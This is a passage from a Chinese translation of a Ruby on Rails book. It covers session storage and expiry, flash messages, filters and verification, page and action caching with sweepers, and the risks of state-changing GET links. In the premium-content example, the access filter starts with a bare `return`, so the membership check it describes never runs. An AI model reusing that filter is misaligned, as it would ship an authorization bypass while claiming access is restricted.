  `sessid` 列存储会话 ID——上面的 DDL 使其足够长以容纳默认的 32 个字符。对此列建立索引是个好主意，因为它用于查找会话数据。

  如果你添加名为 `created_at` 或 `updated_at` 的列，Active Record 将自动为会话表中的行添加时间戳——我们稍后会看到为什么这是个好主意。

- `:database_manager => CGI::Session::DRbStore`

  DRb 是一种允许 Ruby 进程通过网络连接共享对象的协议。使用 DRbStore 数据库管理器，Rails 将会话数据存储在 DRb 服务器上（你可以在 Web 应用程序外部管理该服务器）。你的应用程序的多个实例，可能运行在分布式服务器上，可以访问相同的 DRb 存储。Rails 源码中包含一个与 Rails 配合使用的简单 DRb 服务器。⁶ DRb 使用 Marshal 来序列化对象。

- `:database_manager => CGI::Session::MemCacheStore`

  memcached 是来自 Danga Interactive 的免费可用的分布式对象缓存系统。⁷ Rails 的 MemCacheStore 使用 Michael Granger 的 Ruby 接口⁸ 来存储会话。memcached 比其他替代方案更复杂，可能只有当你已经在网站上因其他原因使用它时才有意义。

- `:database_manager => CGI::Session::MemoryStore`

  此选项将会话数据本地存储在应用程序的内存中。由于不涉及序列化，任何对象都可以存储在会话中。

> ⁶ 如果你通过 Gems 安装，你会在 `{RUBYBASE}/lib/ruby/gems/1.8/gems/actionpack-x.y/lib/action_controller/session/drb_server.rb` 中找到它。

> ⁷ <http://www.danga.com/memcached>

> ⁸ 可从 <http://www.develate.org/code/e1/Ruby-MemCache.html> 获取。

### 比较会话存储选项

面对所有这些可供选择的会话存储方案，你该如何在应用中做出选择呢？一如既往，答案是“视情况而定”。

如果我们排除过于简单的内存存储、限制太多的文件存储，以及大材小用的 memcached，那么选择范围就缩小到 PStore、Active Record 存储和基于 DRb 的存储。我们可以从性能和功能方面对这些选项进行比较。

Scott Barron 对这些存储选项的性能进行了一项引人入胜的分析。⁹ 他的发现有些出人意料。对于少量的会话，PStore 和 DRb 的性能大致相当。随着会话数量增加，PStore 的性能开始下降。这可能是因为主机操作系统难以维护一个包含数万个会话数据文件的目录。DRb 的性能则保持相对稳定。使用 Active Record 作为后备存储的性能较低，但随着会话数量增加，其性能保持稳定。

这对您意味着什么？评论员 Bill Katz 在以下段落中进行了总结。

如果你预期运营一个大型网站，那么关键问题就是可扩展性，你可以通过“向上扩展”（通过增加 CPU、内存等升级现有服务器）或“向外扩展”（添加新服务器）来解决。当前由 Google 等公司推广的主流理念是通过添加廉价的商用服务器来实现向外扩展。理想情况下，这些服务器中的每一台都应该能够处理任何传入请求。因为单个会话中的请求可能由多台服务器处理，我们需要我们的会话存储能在整个服务器集群中被访问。你选择的会话存储选项应反映你优化整个服务器系统的计划。鉴于硬件和软件的众多可能性，你可以沿着影响你会话存储选择的任何方向进行优化。例如，你可以使用具有极快内存事务能力的新版 MySQL 集群数据库；这与 Active Record 方法会配合得很好。你也可以部署高性能的存储区域网络，这可能与 PStore 配合良好。memcached 方案被用于流量高的网站，如 LiveJournal、Slashdot 和 Wikipedia。当你分析你试图扩展的具体应用并运行基准测试以调整你的方法时，优化效果最佳。简而言之，“视情况而定”。

在性能方面几乎没有绝对的定论，每个人的环境都不同。你的硬件、网络延迟、数据库选择，甚至可能天气都会影响会话存储所有组件的交互方式。我们最好的建议是从最简单的可行解决方案开始，然后监控它。如果它开始拖慢你的速度，在急于跳入火坑之前，先找出原因。

如果你的应用运行在单台服务器上，会话存储最简单的选择是 PStore。它对于合理数量的活跃会话具有良好的性能，并且几乎不需要配置。

如果你的应用有超过 10,000 个并发会话，或者它运行在多台服务器上，我们建议你从一个基于 Active Record 的解决方案开始。如果随着应用增长，你发现这成为了瓶颈，你可以迁移到基于 DRb 的解决方案。

### 会话过期与清理

所有这些方案都存在一个共同问题：会话数据存储在服务器上。每个新会话都会向会话存储中添加一些内容。你最终需要进行一些清理工作，否则将会耗尽服务器资源。

清理会话还有另一个原因。许多应用不希望会话永久存在。一旦用户从特定浏览器登录，应用可能希望强制执行一个规则：用户只在活跃时保持登录状态；当他们登出，或者在最后一次使用应用后的某个固定时间后，他们的会话应该被终止。

有时你可以通过使保存会话 ID 的 cookie 过期来达到这个效果。然而，这容易被终端用户滥用。更糟糕的是，很难同步浏览器上 cookie 的过期与服务器上会话数据的清理。

因此，我们建议你通过简单地删除服务器端的会话数据来使会话过期。如果随后浏览器发送一个包含已删除数据会话 ID 的请求，应用将不会收到任何会话数据；该会话实际上将不存在。

实现此过期机制取决于所使用的存储机制。

对于基于 PStore 的会话，最简单的方法是定期运行一个清理任务（例如在类 Unix 系统下使用 `cron(1)`）。此任务应检查会话数据目录中文件的最后修改时间，删除那些超过给定时间的文件。

对于基于 Active Record 的会话存储，我们建议在 `sessions` 表中定义 `created_at` 和/或 `updated_at` 列。你可以通过清理任务执行如下 SQL 来删除所有在过去一小时内未修改的会话（忽略夏令时更改）：

```sql
delete from sessions
where now() - updated_at > 3600;
```

对于基于 DRb 的解决方案，过期发生在 DRb 服务器进程内部。你可能希望在会话数据哈希中的条目旁边记录时间戳。你可以运行一个单独的线程（甚至是一个单独的进程）来定期删除此哈希中的条目。

在所有情况下，你的应用可以通过调用 `reset_session()` 来帮助此过程，以便在会话不再需要时（例如，当用户注销时）删除会话。

## 18.6 Flash—在动作之间传递消息

当我们使用 `redirect_to()` 将控制权转移到另一个动作时，浏览器会生成一个单独的请求来调用该动作。该请求将由我们的应用在一个全新的控制器对象实例中处理——在原始动作中设置的实例变量对处理重定向动作的代码不可用。但有时我们需要在这两个实例之间进行通信。我们可以使用一种称为 `flash` 的机制来实现这一点。

Flash 是一个用于存储值的临时便笺本。它被组织成一个哈希结构并存储在会话数据中，因此你可以存储与键关联的值，并在之后检索它们。它有一个特殊的属性。默认情况下，在处理一个请求期间存储到 flash 中的值，在处理紧随其后的下一个请求时是可用的。一旦第二个请求被处理完毕，这些值就会从 flash 中移除。¹⁰

Flash 最常见的用途可能是将错误和信息字符串从一个动作传递到下一个动作。这里的意图是第一个动作注意到某个条件，创建一个描述该条件的消息，然后重定向到另一个动作。通过将消息存储在 flash 中，第二个动作能够访问该消息文本并在视图中使用它。

```ruby
class BlogController
  def display
    @article = Article.find(params[:id])
  end

  def add_comment
    @article = Article.find(params[:id])
    comment = Comment.new(params[:comment])
    @article.comments << comment
    if @article.save
      flash[:note] = "Thank you for your valuable comment"
    else
      flash[:note] = "We threw your worthless comment away"
    end
    redirect_to :action => 'display'
  end
end
```

¹⁰ 如果你阅读了 flash 功能的 RDoc，你会看到它提到值只在下一个动作中可用。这并不完全准确：flash 是在处理完下一个请求后被清空的，而不是按动作逐个清空的。

⁹ 镜像地址：<http://media.pragprog.com/ror/sessions>。

在此示例中，`add_comment()` 方法使用键 `:note` 将两条不同消息之一存储到闪存中，然后重定向到 `display()` 动作。

`display()` 动作似乎并未使用此信息。为了解究竟发生了什么，我们需要深入探究，查看位于 `app/views/blog` 目录下的 `display.rhtml` 视图代码。

```html
<html>
  <head>
    <title>My Blog</title>
    <%= stylesheet_link_tag("blog") %>
  </head>
  <body>
    <div id="main">
      <% if @flash[:note] -%>
        <div id="notice"><%= @flash[:note] %></div>
      <% end -%>
      :   :   :
      :   :   :
    </div>
  </body>
</html>
```

闪存不仅可在控制器中访问，在布局代码中同样可用。在此示例中，如果闪存包含 `:note` 键，我们的布局会生成相应的 `<div>` 元素。

有时将闪存用作向当前动作模板传递消息的方式会很方便。例如，我们的 `display()` 方法可能希望在没有其他更紧急通知时输出一个友好的横幅。它不需要将该消息传递给下一个动作——它仅用于当前请求。为此，它可以使用 `flash.now`，它会更新闪存但不会将数据添加到会话中。


```ruby
class BlogController
  def display
    unless flash[:note]
      flash.now[:note] = "Welcome to my blog"
    end
    @article = Article.find(params[:id])
  end
end
```

`flash.now` 创建的是临时闪存条目，而 `flash.keep` 的作用恰恰相反，它使当前闪存中的条目能够延续到下一个请求周期。

```ruby
class SillyController
  def one
    flash[:note] = "Hello"
    flash[:error] = "Boom!"
    redirect_to :action => "two"
  end

  def two
    flash.keep(:note)
    flash[:warning] = "Mew!"
    redirect_to :action => "three"
  end

  def three
    # At this point,
    # flash[:note]     => "Hello"
    # flash[:warning] => "Mew!"
    # and flash[:error] is unset
    render
  end
end
```

如果你不向 `flash.keep` 传递任何参数，所有闪存内容都将被保留。

闪存可以存储不仅仅是文本消息——你可以使用它在动作之间传递各种信息。显然，对于需要长期保存的信息，你会希望使用会话（通常结合数据库）来存储数据，但如果你想将参数从一个请求传递到下一个请求，闪存就非常适用。

因为闪存数据存储在会话中，所以所有常规规则都适用。特别需要注意的是，每个对象都必须是可序列化的，并且如果你存储模型对象，则需要在控制器中声明 `model`。

## 18.7 过滤器与验证

过滤器使你能够在控制器中编写代码，这些代码会包裹动作执行的过程——你可以编写一次代码块，让它在控制器（或其子类）中任意数量的动作之前或之后被调用。这被证明是一个强大的功能。使用过滤器，我们可以实现身份验证方案、日志记录、响应压缩，甚至响应定制。

Rails 支持三种类型的过滤器：`before`、`after` 和 `around`。过滤器在动作执行之前和/或之后被调用。根据你的定义方式，它们可以作为方法在控制器内部运行，也可以在运行时被传入控制器对象。无论哪种方式，它们都可以访问请求和响应对象的详细信息以及其他控制器属性。

### Before 和 After 过滤器

顾名思义，`before` 和 `after` 过滤器分别在动作执行之前或之后被调用。Rails 为每个控制器维护两条过滤器链。当控制器即将运行一个动作时，它会执行 `before` 链上的所有过滤器。执行完动作后，再运行 `after` 链上的过滤器。

过滤器可以是被动的，监控控制器执行的操作。它们也可以在请求处理中扮演更积极的角色。如果一个 `before` 过滤器返回 `false`，则过滤器链的处理将终止，动作不会被执行。过滤器还可以渲染输出或重定向请求，在这种情况下，原始动作永远不会被调用。

我们在第 163 页的商店示例管理功能中看到了一个使用过滤器进行授权的示例。我们定义了一个授权方法，如果当前会话中没有已登录的用户，就重定向到登录屏幕。

```ruby
class ApplicationController < ActionController::Base

  private

  def authorize
    unless User.find_by_id(session[:user_id])
      flash[:notice] = "Please log in"
      redirect_to(:controller => "login", :action => "login")
    end
  end
end
```

然后我们将此方法设为管理控制器中所有动作的 `before` 过滤器。

```ruby
class AdminController < ApplicationController

  before_filter :authorize

  # ....
end
```

这是一个让方法充当过滤器的示例；我们通过将方法名作为符号传递给 `before_filter`。过滤器声明也接受代码块和类名。如果指定了代码块，它将以当前控制器作为参数被调用。如果给出了类，则其 `filter()` 类方法将以控制器作为参数被调用。

```ruby
class AuditFilter
  def self.filter(controller)
    AuditLog.create(:action => controller.action_name)
  end
end
```

```ruby
class SomeController < ApplicationController

  before_filter do |controller|
    logger.info("Processing #{controller.action_name}")
  end

  after_filter AuditFilter

  # ...
end
```

默认情况下，过滤器适用于控制器中的所有动作（以及该控制器的任何子类）。你可以使用 `:only` 选项（指定一个或多个要应用过滤器的动作）和 `:except` 选项（列出要排除在过滤器之外的动作）来修改此行为。

```ruby
class BlogController < ApplicationController

  before_filter :authorize, :only => [ :delete, :edit_comment ]

  after_filter :log_access, :except => :rss

  # ...
end
```

`before_filter` 和 `after_filter` 声明会追加到控制器的过滤器链中。使用变体 `prepend_before_filter()` 和 `prepend_after_filter()` 可以将过滤器放在链的前端。

### After 过滤器与响应处理

`after` 过滤器可用于修改出站响应，在需要时更改头信息和内容。一些应用程序使用此技术对控制器模板生成的内容执行全局替换（例如，在响应体中将字符串 `<customer/>` 替换为客户姓名）。另一种用途是在用户浏览器支持的情况下压缩响应。

下面的代码是一个此技术如何工作的示例。<sup>11</sup> 控制器将 `compress()` 方法声明为 `after` 过滤器。该方法查看请求头以确定浏览器是否接受压缩响应。如果是，它会使用 Zlib 库将响应体压缩为一个字符串。<sup>12</sup> 如果压缩结果比原始内容短，它会用压缩版本替换，并更新响应的编码类型。

```ruby
require 'zlib'
require 'stringio'

class CompressController < ApplicationController

  after_filter :compress

  def index
    render(:text => "<pre>" + File.read("/etc/motd") + "</pre>")
  end

  protected

  def compress
    accepts = request.env['HTTP_ACCEPT_ENCODING']
    return unless accepts && accepts =~ /(x-gzip|gzip)/
    encoding = $1

    output = StringIO.new
    def output.close    # Zlib does a close. Bad Zlib...
      rewind
    end

    gz = Zlib::GzipWriter.new(output)
    gz.write(response.body)
    gz.close

    if output.length < response.body.length
      response.body = output.string
      response.headers['Content-encoding'] = encoding
    end
  end
end
```

<sup>11</sup>此代码并非压缩的完整实现。特别是，它不会压缩通过 `send_file()` 下载到客户端的流式数据。

<sup>12</sup>请注意，Zlib Ruby 扩展可能在你的平台上不可用——它依赖于底层 `libzlib.a` 库的存在。

### 环绕过滤器

环绕过滤器是用于包裹操作执行的对象。这些对象必须实现 `before()` 和 `after()` 方法，它们在被过滤的操作执行前后被调用。环绕过滤器对象在 `before()` 和 `after()` 调用之间保持其状态。以下示例通过计时博客控制器中的操作来说明这一点。

```ruby
class TimingFilter
  def before(controller)
    @started = Time.now
  end

  def after(controller)
    elapsed = Time.now - @started
    action = controller.action_name
    controller.logger.info("#{action} took #{elapsed} seconds")
  end
end

### ...

class BlogController < ApplicationController

  around_filter TimingFilter.new

  # ...
end
```

与 `before` 和 `after` 过滤器不同，环绕过滤器不接受 `:only` 或 `:except` 参数。

环绕过滤器的添加方式有所不同。环绕对象的 `before()` 方法被追加到过滤器链中，而 `after()` 方法则被前置到 after 链中。这意味着环绕对象将正确地嵌套。如果你编写：

```ruby
around_filter A.new, B.new
```

过滤器调用的顺序将是：

```text
A#before()
  B#before
    action...
  B#after
A#after
```

### 过滤器继承

如果你继承了一个包含过滤器的控制器，过滤器将在子对象和父对象上运行。但是，在子对象中定义的过滤器不会在父对象中运行。

### 验证

`before` 过滤器的常见用途是在尝试执行操作之前验证是否满足某些条件。Rails 的 `verify` 机制是一种抽象，可能帮助你比在显式过滤器代码中更简洁地表达这些前提条件。

例如，我们可能要求在我们的博客允许发表评论之前，会话中包含一个有效的用户。我们可以使用如下验证来表达这一点：

```ruby
class BlogController < ApplicationController

  verify :only => :post_comment,
         :session => :user_id,
         :add_flash => { :note => "You must log in to comment"},
         :redirect_to => :index

  # ...
end
```

此声明将验证应用于 `post_comment` 操作。如果会话不包含键 `:user_id`，则向 flash 添加一条提示并将请求重定向到 `index` 操作。

`verify` 的参数可分为三类。

### 适用性

这些选项选择哪些操作应用此验证。

- `:only => :name or [:name, ...]`：仅验证列出的操作。
- `:except => :name or [:name, ...]`：验证除列出操作之外的所有操作。

### 测试

这些选项描述对请求执行的测试。如果给出了多个测试，则所有测试都必须为真验证才能成功。

- `:flash => :key or [:key, ...]`：flash 必须包含给定的键或键组。
- `:method => :symbol or [:symbol, ...]`：请求方法（`:get`、`:post`、`:head` 或 `:delete`）必须匹配给定的符号之一。
- `:params => :key or [:key, ...]`：请求参数必须包含给定的键或键组。
- `:session => :key or [:key, ...]`：会话必须包含给定的键或键组。

### 操作

这些选项描述验证失败时应发生的情况。如果未指定操作，验证失败时将向浏览器返回空响应。

- `:add_flash => hash`：将给定的键值对哈希合并到 flash 中。这可用于向用户生成错误响应。
- `:redirect_to => params`：使用给定的参数哈希进行重定向。

## 18.8 缓存，第一部分

许多应用程序似乎花费大量时间重复做同样的事情。博客应用程序为每个访客渲染当前文章列表。商店应用程序将为每个请求者显示相同的产品信息页面。

所有这些重复都消耗了我们服务器上的资源和时间。渲染博客页面可能需要半打数据库查询，最终可能需要执行许多 Ruby 方法和 Rails 模板。对于单个请求来说这不是什么大事，但如果将其乘以每小时成千上万的点击量，突然间你的服务器就会开始发出暗红色的光芒。你的用户会看到这一点表现为响应时间变慢。

在这种情况下，我们可以使用缓存来大大减少服务器的负载并提高应用程序的响应速度。与其一次又一次地从头生成相同的内容，不如创建一次并记住结果。下次收到针对同一页面的请求时，我们从缓存中提供它，而不是重新创建它。

Rails 提供了三种缓存方法。在本章中，我们将描述其中的两种，*页面缓存* 和 *操作缓存*。我们将在 *Action View* 章节的第 [442](https://example.com) 页讨论第三种，*片段缓存*。

*页面缓存* 是 Rails 缓存中最简单和最有效的形式。当用户第一次请求特定 URL 时，我们的应用程序被调用并生成一个 HTML 页面。此页面的内容存储在缓存中。下次收到包含该 URL 的请求时，页面的 HTML 将直接从缓存中提供。你的应用程序永远不会看到该请求。实际上 Rails 根本没有参与：请求完全在 web 服务器内处理，这使得页面缓存非常非常高效。你的应用程序提供这些页面的速度与服务器提供任何其他静态内容的速度一样快。

但是，有时我们的应用程序需要至少部分参与处理这些请求。例如，你的商店可能只向一部分用户显示某些产品的详细信息（也许高级客户可以更早地访问新产品）。在这种情况下，你显示的页面内容相同，但你不希望向任何人显示它——你需要过滤对缓存内容的访问。Rails 提供了 *操作缓存* 来实现此目的。使用操作缓存，你的应用程序控制器仍会被调用，并且其 `before` 过滤器也会运行。但是，如果存在现有的缓存页面，则不会实际调用该操作。

让我们在一个具有公共内容和高级会员专属内容的网站上下文中看看这一点。我们有两个控制器，一个验证用户是否为会员的登录控制器，以及一个包含显示公共内容和高级内容操作的内容控制器。公共内容由一个带有指向高级文章链接的单页组成。如果有人请求高级内容而他们不是会员，我们将他们重定向到登录控制器中的一个注册操作。

暂时忽略缓存，我们可以使用 `before` 过滤器验证用户状态，并使用几个操作方法来实现此应用程序的内容部分。

```ruby
class ContentController < ApplicationController
  before_filter :verify_premium_user, :except => :public_content

  def public_content
    @articles = Article.list_public
  end

  def premium_content
    @articles = Article.list_premium
  end

  private

  def verify_premium_user
    return
    user = session[:user_id]
    user = User.find(user) if user
    unless user && user.active?
      redirect_to :controller => "login", :action => "signup_new"
    end
  end
end
```

由于内容页面是固定的，它们可以被缓存。我们可以在页面级别缓存公共内容，但我们必须将对缓存的高级内容的访问限制为会员，因此我们需要使用操作级缓存。要启用缓存，我们只需在类中添加两个声明。

```ruby
### Download el/cookies/cookie1/app/controllers/content_controller.rb
class ContentController < ApplicationController

  before_filter :verify_premium_user, :except => :public_content

  caches_page    :public_content
  caches_action :premium_content
end
```

`caches_page` 指令告诉 Rails 在第一次生成 `public_content()` 的输出时对其进行缓存。此后，此页面将直接从 web 服务器提供。

第二个指令 `caches_action` 告诉 Rails 缓存执行 `premium_content()` 的结果，但仍然执行过滤器。这意味着我们仍将验证请求页面的人员是否被允许这样做，但我们不会实际多次执行该操作。

默认情况下，仅在生产环境中启用缓存。你可以通过设置以下内容手动开启或关闭它。


```ruby
ActionController::Base.perform_caching = true | false
```

你应该在应用程序的环境文件（位于`config/environments`）中进行此更改。

### 应缓存什么

Rails 操作和页面缓存严格基于 URL。页面根据首次生成它的 URL 内容进行缓存，对该相同 URL 的后续请求将返回保存的内容。

这意味着依赖于 URL 之外内容的动态页面是缓存的较差候选者。这些包括以下内容。

### 过期页面

创建缓存页面只是问题的一半。如果最初用于创建这些页面的内容发生了变化，缓存版本就会过时，我们需要一种方法来使它们失效。

关键在于将应用程序编码为能够注意到用于创建动态页面的数据何时发生了变化，然后移除缓存版本。下次有对该 URL 的请求时，缓存页面将基于新内容重新生成。

### 显式地使页面过期

移除缓存页面的底层方法是使用`expire_page()`和`expire_action()`方法。这些方法接受与`url_for()`相同的参数，并使与生成的 URL 匹配的缓存页面过期。

例如，我们的内容控制器可能有一个用于创建文章的操作和另一个用于更新现有文章的操作。当我们创建一篇文章时，公共页面上的文章列表将变得过时，因此我们调用`expire_page()`，传入显示公共页面的操作名称。当我们更新一篇现有文章时，公共索引页面保持不变（至少在我们的应用程序中是这样），但这篇特定文章的任何缓存版本都应该被删除。因为这个缓存是使用`caches_action`创建的，我们需要使用`expire_action()`来使页面过期，传入操作名称和文章 ID。

```ruby
def create_article
  article = Article.new(params[:article])
  if article.save
    expire_page :action => "public_content"
  else
    # ...
  end
end
```

```ruby
def update_article
  article = Article.new(params[:article])
  if article.save
    expire_action :action => "premium_content", :id => article
  else
    # ...
  end
end
```

删除文章的方法需要做更多的工作——它必须同时使公共索引页无效并移除特定的文章页面。

```ruby
# app/controllers/content_controller.rb
def delete_article
  Article.destroy(params[:id])
  expire_page :action => "public_content"
  expire_action :action => "premium_content", :id => params[:id]
end
```

### 隐式地使页面过期

`expire_xxx`方法运行良好，但它们也将缓存功能耦合到了控制器的代码中。每次你在数据库中更改内容时，你还必须弄清楚这可能会影响哪些缓存页面。虽然这对于较小的应用程序来说很容易，但随着应用程序的增长，这会变得更加困难。一个控制器中的更改可能会影响另一个控制器中缓存的页面。辅助方法中的业务逻辑，实际上不应该知道 HTML 页面，现在却需要担心使缓存页面过期。

幸运的是，Rails 可以使用*清扫器*来简化部分耦合。清扫器是一种特殊的模型对象观察者。当模型中发生重要事件时，清扫器会使依赖于该模型数据的缓存页面过期。

你的应用程序可以根据需要拥有任意数量的清扫器。你通常会为每个控制器创建一个单独的清扫器来管理缓存。将你的清扫器代码放在`app/models`中。

```ruby
# app/sweepers/article_sweeper.rb
class ArticleSweeper < ActionController::Caching::Sweeper

  observe Article

  # 如果我们创建了一篇新文章，公共文章列表
  # 必须重新生成
  def after_create(article)
    expire_public_page
  end

  # 如果我们更新了一篇现有文章，那篇特定文章
  # 的缓存版本就过时了
  def after_update(article)
    expire_article_page(article.id)
  end

  # 删除一篇文章意味着我们要更新公共列表
  # 并删除缓存的文章
  def after_destroy(article)
    expire_public_page
    expire_article_page(article.id)
  end

  private

  def expire_public_page
    expire_page(:controller => "content", :action => 'public_content')
  end

  def expire_article_page(article_id)
    expire_action(:controller => "content",
                  :action      => "premium_content",
                  :id          => article_id)
  end
end
```

清扫器的流程有些复杂。

- 清扫器被定义为一个或多个 Active Record 类的观察者。在本例中，它观察`Article`模型。清扫器使用钩子方法（如`after_update()`）在适当时使缓存页面过期。
- 清扫器还使用`cache_sweeper`指令声明在控制器中活动。

```ruby
class ContentController < ApplicationController
  before_filter :verify_premium_user, :except => :public_content
  caches_page :public_content
  caches_action :premium_content

  cache_sweeper :article_sweeper,
               :only => [ :create_article,
                          :update_article,
                          :delete_article ]
  # ...
```

- 如果有一个请求调用了清扫器正在过滤的操作之一，清扫器就会被激活。如果任何 Active Record 观察者方法触发，页面和操作过期方法将被调用。如果 Active Record 观察者被调用但当前操作未被选为缓存清扫器，则清扫器中的过期调用将被忽略。否则，过期将发生。

### 基于时间的缓存页面过期

考虑一个显示相当易变信息（如股票报价或新闻标题）的网站。如果我们使用那种在底层信息变化时就使页面过期的缓存方式，我们将不断使页面过期。缓存很少会被用到，我们将失去拥有它的好处。

在这种情况下，你可能需要考虑切换到基于时间的缓存，其中你像以前一样构建缓存页面，但当它们的内容过时时并不使它们过期。

你运行一个单独的后台进程，定期进入缓存目录并删除缓存文件。你选择如何执行此删除——你可以简单地删除所有文件、创建于超过特定分钟数之前的文件，或者文件名与某种模式匹配的文件。这部分是特定于应用程序的。

下次对这些页面之一发出请求时，它将不会从缓存中得到满足，应用程序将处理它。在此过程中，它将自动重新填充该特定页面的缓存，从而减轻后续获取此页面的负担。

在哪里可以找到要删除的缓存文件？不出所料，这是可配置的。页面缓存文件默认存储在应用程序的`public`目录中。它们将根据它们缓存的 URL 命名，并带有`.html`扩展名。例如，`content/show/1`的页面缓存文件将在`public/content/show/1.html`中。

这种命名方案并非巧合；它允许 Web 服务器自动找到缓存文件。但是，你可以使用：

```ruby
ActionController::Base.page_cache_directory = "dir/name"
ActionController::Base.page_cache_extension = ".html"
```

来覆盖默认值。

操作缓存文件默认不存储在常规文件系统目录结构中，因此无法使用此技术使其过期。

## 18.9 GET 请求的问题

在撰写本书时，关于 Web 应用程序使用链接触发操作的方式存在激烈争论。

问题在于。几乎从 HTTP 发明以来，人们就认识到 HTTP GET 和 POST 请求之间存在根本区别。Tim Berners-Lee 在 1996 年就写过相关文章。¹³ 使用 GET 请求从服务器检索信息，使用 POST 请求请求服务器上的状态更改。

问题在于，这条规则已被 Web 开发人员广泛忽视。每次你看到一个带有*添加到购物车*链接的应用程序时，你看到的就是一个违规行为，因为点击该链接会生成一个 GET 请求，该请求会更改应用程序的状态（在本例中，它向购物车中添加了某些内容）。直到现在，我们一直侥幸逃脱。

这在 2005 年春季发生了变化，当时 Google 发布了 Google Web Accelerator（GWA），这是一种客户端代码，用于加速最终用户的浏览。它部分通过预缓存页面来实现这一点。当用户阅读当前页面时，加速器软件会扫描其中的链接，并安排在后台读取和缓存相应的页面。

现在想象一下，你正在查看一个包含*添加到购物车*链接的在线商店。当你正在决定买栗色热裤还是紫色背心时，加速器正忙于跟踪链接。每个跟踪的链接都会向你的购物车中添加一个新商品。

这个问题一直存在。搜索引擎和其他蜘蛛不断跟踪公共网页上的链接。不过通常情况下，这些在应用程序中调用状态更改操作的链接（如我们的*添加到购物车*链接）受到用户身份验证的保护。但如果你没有为未认证用户缓存页面，这些链接将是安全的。但是，如果你这样做了，它们就容易被意外调用。

> 13 http://www.w3.org/DesignIssues/Axioms

### 修复 GET 问题

遵循一个简单的规则可以有效消除与危险链接相关的风险。其基本公理很直接：绝不允许任何会导致危险操作的`<a href="...`链接在没有某种人工干预的情况下被访问。以下是一些实践中的解决技巧。

- *使用表单和按钮*，而不是超链接，来执行会更改服务器状态的操作。表单可以使用 POST 请求提交，这意味着它们不会被爬虫通过跟踪链接来提交，并且在浏览器中刷新页面时会提示用户。

  在 Rails 中，这意味着使用`button_to()`辅助方法指向危险操作。然而，你需要仔细设计网页。HTML 不允许表单嵌套，因此你不能在另一个表单内使用`button_to()`。

- *使用确认页面*。对于无法使用表单的情况，创建一个链接，指向一个询问确认的页面。此确认应由表单的提交按钮触发；因此，破坏性操作不会自动触发。

  ¹⁴ 或更少见的 PUT 或 DELETE 请求。

有些人还使用以下技巧，希望它们能防止问题。它们*不起作用*。

- 不要以为你的操作因为你在链接上安装了 JavaScript 确认框就受到保护。例如，Rails 允许你编写：

  `link_to(:action => :delete, :confirm => "Are you sure?")`

  这将防止用户因意外点击链接而造成损害，但前提是他们在浏览器中启用了 JavaScript。它也无法阻止爬虫和自动化工具盲目地跟踪链接。

- 不要以为你的操作因为只出现在网站需要用户登录的部分而受到保护。虽然这确实可以防止全局爬虫（如搜索引擎使用的爬虫）访问它们，但它无法阻止客户端技术（如 Google Web Accelerator）。

- 不要以为你的操作因为使用了`robots.txt`文件来控制哪些页面被抓取而受到保护。这无法保护你免受客户端技术的影响。

这一切听起来可能相当悲观。但实际情况并非如此糟糕。只需在设计网站时遵循一个简单的规则，你就能避免所有这些问题。

| Web 健康警告 | 将所有破坏性操作置于 POST 请求之后 |
| :--- | :--- |

# 第 19 章：Action View

我们已经看到路由组件如何决定使用哪个控制器，以及控制器如何选择一个操作。我们也看到控制器和操作如何共同决定向用户呈现什么内容。通常，这种呈现发生在操作结束时，并且通常涉及模板。这正是本章的主题。ActionView 模块封装了渲染模板所需的所有功能，最常见的是向用户生成 HTML 或 XML。顾名思义，ActionView 是我们 MVC 三部曲中的视图部分。

## 19.1 模板

当你编写视图时，你就是在编写一个模板：某种会被展开以生成最终结果的东西。为了理解这些模板的工作原理，我们需要了解三件事：

- 模板放在哪里；
- 它们运行的环境；以及
- 它们里面包含什么。

### 模板放在哪里

`render()`方法期望在由全局`template_root`配置选项定义的目录下找到模板。默认情况下，该选项设置为当前应用程序的`app/views`目录。在此目录内，惯例是为每个控制器的视图设置一个单独的子目录。例如，我们的 Depot 应用程序包含`admin`和`store`控制器。因此，我们在`app/views/admin`和`app/views/store`中都有模板。每个目录通常包含以相应控制器中操作命名的模板。

你也可以拥有不按操作命名的模板。这些模板可以从控制器中渲染，使用如下调用：

```ruby
render(:action   => 'fake_action_name')
render(:template => 'controller/name')
render(:file     => 'dir/template')
```

最后一个选项允许你将模板存储在文件系统的任何位置。如果你想在应用程序之间共享模板，这很有用。

### 模板环境

模板包含固定文本和代码的混合。代码用于向模板添加动态内容。这些代码在一个环境中运行，该环境使其能够访问控制器设置的信息。

- 控制器的所有实例变量在模板中也可用。这就是操作向模板传递数据的方式。
- 控制器对象的`headers`、`params`、`request`、`response`和`session`在视图中作为访问器方法可用。通常，视图代码不应该直接使用这些，因为处理它们的责任应该由控制器承担。然而，我们确实在调试时发现这很有用。例如，以下 rhtml 模板使用`debug()`方法显示 session 的内容、参数的细节和当前的响应。

  ```erb
  <h4>Session</h4>  <%= debug(session) %>
  <h4>Params</h4>   <%= debug(params) %>
  <h4>Response</h4> <%= debug(response) %>
  ```

- 当前控制器对象可以通过名为`controller`的属性访问。这允许模板调用控制器中的任何公共方法（包括 ActionController 中的方法）。
- 模板基目录的路径在`base_path`属性中可用。

### 模板里包含什么

开箱即用，Rails 支持两种类型的模板。

- rxml 模板使用 Builder 库来构建 XML 响应。
- rhtml 模板是 HTML 和嵌入式 Ruby 的混合体，通常用于生成 HTML 页面。

接下来我们将简要介绍 Builder，然后看看 rhtml。本章的其余部分同样适用于两者。

## 19.2 Builder 模板

Builder 是一个独立的库，允许你在代码中表达结构化文本（例如 XML）。¹ Builder 模板（在扩展名为`.rxml`的文件中）包含使用 Builder 库生成 XML 的 Ruby 代码。

这是一个简单的 Builder 模板，它以 XML 格式输出产品名称和价格的列表。

```ruby
xml.div(:class => "productlist") do
  xml.timestamp(Time.now)
  @products.each do |product|
    xml.product do
      xml.productname(product.title)
      xml.price(product.price, :currency => "USD")
    end
  end
end
```

通过一组适合的产品（从控制器传递进来），该模板可能会生成类似以下的内容：

```xml
<div class="productlist">
  <timestamp>Tue Apr 19 15:54:26 CDT 2005</timestamp>
  <product>
    <productname>Pragmatic Programmer</productname>
    <price currency="USD">39.96</price>
  </product>
  <product>
    <productname>Programming Ruby</productname>
    <price currency="USD">44.95</price>
  </product>
</div>
```

注意 Builder 如何将方法名转换为 XML 标签；当我们说`xml.price`时，它创建了一个名为`<price>`的标签，其内容是第一个参数，其属性则从后续的哈希中设置。如果你想使用的标签名与现有方法名冲突，你需要使用`tag!()`方法来生成标签。

```ruby
xml.tag!("id", product.id)
```

